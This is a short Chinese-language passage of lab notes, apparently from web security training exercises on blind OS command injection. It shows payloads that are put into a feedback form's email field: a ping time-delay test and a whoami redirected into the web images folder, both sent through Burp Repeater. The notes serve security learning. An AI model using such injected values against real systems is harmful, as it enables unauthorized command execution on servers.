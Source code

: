 下面两种方式都可以，但要求在email里面加

```
||ping -c 10 127.0.0.1||
```

```
;ping -c 10 127.0.0.1;
```

抓包丢到`Repeater`

![image-20250220145547997](../../_media/image-20250220145547997.png)

可以看到服务端等待了10s才将返回报文送过来

提示`Congratulations！`



#### Lab: Blind OS command injection with output redirection

重定向构筑shell命令，然后读取写入的文件内容就可以完成注入了，本题要求使用`whoami`来进行测试

写入的文件夹位于：

```
/var/www/images/
```

还是`Submit feedback`

丢到`Repeater`

 改参数尝试

```
||whoami>/var/www/images/shell.txt||
```
